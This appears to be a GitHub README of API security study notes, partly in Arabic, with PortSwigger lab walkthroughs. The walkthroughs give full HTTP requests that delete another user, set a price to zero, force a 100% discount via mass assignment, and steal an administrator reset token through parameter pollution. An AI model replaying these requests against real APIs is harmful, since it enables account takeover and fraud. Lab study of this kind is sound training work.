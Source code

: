 


# API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary>Interacting with API endpoints</summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>





- <details>
     <summary>Mass assignment vulnerabilities</summary>



     
     
     
     # API Recon and Mass Assignment Vulnerabilities
     
     ## Using Intruder to Find Hidden Endpoints
     Once you have identified some initial API endpoints, you can use **Burp Intruder** to uncover hidden endpoints.
     
     **Example:**
     ```
     PUT /api/user/update
     ```
     
     You can test for hidden endpoints by replacing `/update` with common words like `delete`, `add`, etc., using a **wordlist**.
     
     👉 Use wordlists based on:
     - Common API naming conventions.
     - Industry terms.
     - Application-specific terms (from recon).
     
     ---
     
     ## Finding Hidden Parameters
     During API recon, you may find undocumented parameters that can affect application behavior.
     
     ### Tools to Help:
     - **Burp Intruder** → use a wordlist of common parameters.
     - **Param Miner BApp** → can guess up to 65,536 parameters automatically.
     - **Content Discovery Tool** → finds hidden/unlinked parameters.
     
     ---
     
     ## Mass Assignment Vulnerabilities
     Mass assignment (auto-binding) happens when frameworks automatically bind request parameters to internal object fields.
     
     This may expose unintended hidden parameters.
     
     ### Identifying Hidden Parameters
     You can often spot hidden parameters by analyzing API responses.
     
     **Example:**
     ```
     PATCH /api/users/
     {
         "username": "wiener",
         "email": "wiener@example.com"
     }
     ```
     
     A concurrent response from:
     ```
     GET /api/users/123
     {
         "id": 123,
         "name": "John Doe",
         "email": "john@example.com",
         "isAdmin": "false"
     }
     ```
     
     This hints that `id` and `isAdmin` may be hidden parameters.
     
     ---
     
     ## Testing for Mass Assignment
     Try modifying hidden parameters in requests.
     
     ### Test 1 - Normal update with hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": false
     }
     ```
     
     ### Test 2 - Invalid value for hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": "foo"
     }
     ```
     
     If behavior changes → parameter is being processed.
     
     ### Exploitation - Privilege Escalation:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": true
     }
     ```
     
     If bound without validation, the user may gain **admin privileges**.
     
     ---
     
     ## Key Takeaways
     - Intruder helps find hidden endpoints.
     - Param Miner & Intruder can find hidden parameters.
     - Mass assignment can expose sensitive parameters like `isAdmin`.
     - Always test with valid and invalid values to confirm vulnerability.
     
     





  </details>






- <details>
     <summary>Server-side parameter pollution</summary>


     <details>
     
     <img width="774" height="277" alt="image" src="https://github.com/user-attachments/assets/31406ab2-46e6-4171-b439-aa876d551c18" />
     
     <img width="842" height="373" alt="image" src="https://github.com/user-attachments/assets/db2fecd5-b365-4f6f-a7fe-e4aee42fecff" />
     
     <img width="744" height="612" alt="image" src="https://github.com/user-attachments/assets/422a0a92-6a6d-4b69-abcf-c78378bdc83b" />
     
     <img width="766" height="406" alt="image" src="https://github.com/user-attachments/assets/efa52df2-a6fc-48e4-ba92-076bcb6d872d" />
     
     <img width="762" height="410" alt="image" src="https://github.com/user-attachments/assets/c938e7c5-7897-4f86-a968-4528db4c3952" />
     
     <img width="772" height="596" alt="image" src="https://github.com/user-attachments/assets/fc0ae5b7-7f91-4276-91a6-966fb87993ef" />
     
     <img width="697" height="661" alt="image" src="https://github.com/user-attachments/assets/2985f930-0f96-41c0-8763-f5cd4a8277e8" />
     
     
          
     </details>
     
     
     
     





     
</details>


















































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>





<details>
     <summary>Lab: Exploiting a mass assignment vulnerability</summary>



> ### login with **`weiner : peter`**
> - select product and add it to cart
> - go to cart
> - see the requests

```http
GET /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153


{
   "chosen_discount":{
       "percentage":0
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}
```

----

> ## first set method to **`options`** to see which methods are allowed


```http
OPTIONS /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 405 Method Not Allowed
Allow: POST, GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20


"Method Not Allowed"
```

---

> ## Good now we can use **`post`** method to update **`discount percentage`** to `100``


```http
POST /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{
   "chosen_discount":{
       "percentage":100
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}


```

### **`response`**

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```



<img width="1516" height="700" alt="image" src="https://github.com/user-attachments/assets/8252e86b-421f-4c85-885b-8942edf5392c" />

<img width="1346" height="679" alt="image" src="https://github.com/user-attachments/assets/22e73718-d2c2-4d2b-8949-07d1caba2875" />




     
</details>






<details>
     <summary>Lab: Exploiting server-side parameter pollution in a query string</summary>


## try to reset password for user **`wiener`**

<img width="1177" height="402" alt="image" src="https://github.com/user-attachments/assets/31899866-d1d4-4327-91e8-c0df6ae3255c" />


## but we know that there is user called **`administrator`**

<img width="1177" height="395" alt="image" src="https://github.com/user-attachments/assets/ce896ced-71d9-4794-9819-d78602fe4a66" />


## note that there is **`/static/js/forgotPassword.js`** 

<img width="1570" height="686" alt="image" src="https://github.com/user-attachments/assets/e27d8981-09c6-4bfb-b206-dfc052c02b96" />


**`we found in it reset password function`**

```javascript

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});

```

> ## so we need **`reset-token`** parameter to reset the password

> ## now go back to **`reset-passowrd`**
> - try to inject **`#`** , **`&`** 

<img width="1169" height="464" alt="image" src="https://github.com/user-attachments/assets/59047886-df85-4aee-a454-0f27412f3bda" />

> ## now i try **`&`** and put **username** parameter to see if it will take the first value or the second

<img width="1163" height="483" alt="image" src="https://github.com/user-attachments/assets/08490d3b-f376-4029-b81e-0ad376416cd5" />

> ## ohh it take the second value

> ## now i will encode **`&`** and try to put any prameter maybe **`a=b`**

<img width="1168" height="430" alt="image" src="https://github.com/user-attachments/assets/074d8e30-26c2-486e-825e-c9ef9d4cc64c" />

> ## **`Parameter is not supported.`** so let's burte force it 

<img width="1610" height="544" alt="image" src="https://github.com/user-attachments/assets/dd518ccd-688e-4b2e-bd70-43e7a5f73180" />

> ## filtered it by length and found that **`feild`** parameter in response say **`Invalid field.`** so we know that there is parameter call **`feild`**
> - lets try to put it's value `username` , `email` , `password`

<img width="1049" height="428" alt="image" src="https://github.com/user-attachments/assets/4513b538-c4ec-4f43-8e61-e6f0c772daa8" />

<img width="1173" height="511" alt="image" src="https://github.com/user-attachments/assets/1801fb9a-f311-43e3-ab7f-bb71e8f94155" />

<img width="1157" height="499" alt="image" src="https://github.com/user-attachments/assets/076935ac-de88-41bf-98de-6f4c43f2bd26" />

> ## so what it we try **`reset-token`** that we need

<img width="1085" height="495" alt="image" src="https://github.com/user-attachments/assets/6ef6dfec-683b-4f80-9c92-8e59b169ee8a" />


```
2y0ykivivnl76kodlyx3adq5qzrp1mn6
```

> ## now

```
/forgot-password?reset_token=2y0ykivivnl76kodlyx3adq5qzrp1mn6
```


<img width="1055" height="680" alt="image" src="https://github.com/user-attachments/assets/658bab92-716d-449f-8710-c1e5909ce3f3" />


> ## now reset password and login as **`adminstrator`**

```
administrator : 123
```

<img width="1295" height="662" alt="image" src="https://github.com/user-attachments/assets/f7c5497c-1bf3-43fa-af17-10108b020d04" />


<img width="1237" height="545" alt="image" src="https://github.com/user-attachments/assets/0daf5a7b-a6db-41a6-a426-3f259a74e361" />


     
</details>




























